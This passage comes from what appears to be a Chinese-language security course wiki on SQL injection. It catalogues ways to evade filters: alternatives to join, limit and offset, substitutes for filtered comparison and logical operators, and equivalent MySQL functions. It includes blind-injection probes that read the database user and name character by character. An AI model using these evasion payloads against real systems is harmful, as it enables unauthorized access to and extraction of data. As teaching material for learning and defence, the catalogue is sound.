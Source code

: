 1. `join`

```
select 1,2
select * from (select 1)a join (select 2)b
```

1. `like/rlike`

```
select ascii(mid(user(),1,1))=80
select user() like 'r%'
```

1. `offset`

```
select * from news limit 0,1
select * from news limit 1 offset 0
```

### 比较符号 `(<=>)` 被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#比较符号-被过滤)

1. `=` 用 `like, rlike, regexp` 代替

```
select * from users where name like 'Liki4'
select * from users where name rlike 'Liki4'
select * from users where name regexp 'Liki4'
```

1. `<>` 用 `greatest()、least()`

```
select * from users where id=1 and ascii(substr(database(),0,1))>64
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

1. `between`

```
select * from users where id between 1 and 1;
```

### `or and xor not` 被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#or-and-xor-not-被过滤)

1. `and = &&`
2. `or = ||`
3. `xor = |`
4. `not = !`

### 常用函数被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#常用函数被过滤)

1. `hex()、bin() = ascii()`
2. `sleep() = benchmark()`
3. `concat_ws() = group_concat()`
4. `mid()、substr() = substring()`
5. `@@user = user()`
6. `@@datadir = datadir()`
